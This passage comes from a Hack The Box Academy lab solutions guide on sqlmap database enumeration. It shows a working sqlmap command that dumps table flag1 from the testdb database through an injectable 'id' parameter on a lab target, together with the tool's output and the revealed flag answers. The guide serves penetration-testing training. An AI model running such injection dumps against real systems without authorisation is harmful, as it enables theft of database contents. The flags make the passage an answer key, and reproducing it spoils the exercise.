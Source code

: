 ```
| id | content               |
+----+-----------------------+
| 1  | HTB{un173_7h3_un173d} |
+----+-----------------------+
```

Answer: `HTB{un173_7h3_un173d}`

# Database Enumeration

## Question 1

### "What's the contents of table flag1 in the testdb database? (Case #1)"

Students first need to navigate to the website's root page of the spawned target and then click on "Case #1" to notice that they need to exploit the `GET` parameter `id`:

![[HTB Solutions/CPTS/z. images/a50e4ea9a51d5ae16cce0c800b6e71aa_MD5.jpg]]

Thus, the `sqlmap` command will be (`-D testdb` specifies that the database "testdb" will be used to retrieve data from, and `-T flag1` specifies the table name within the database):

Code: shell

```shell
sqlmap -u 'http://STMIP:STMPO/case1.php?id=1' -D testdb -T flag1 --batch --dump
```

```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sqlmap -u 'http://206.189.24.232:31764/case1.php?id=1' -D 'testdb' -T flag1 --batch --dump

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.8#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>

Database: testdb
Table: flag1
[1 entry]
+----+-----------------------------------------------------+
| id | content                                             |
+----+-----------------------------------------------------+
| 1  | HTB{c0n6r475_y0u_kn0w_h0w_70_run_b451c_5qlm4p_5c4n} |
+----+-----------------------------------------------------+

<SNIP>
```
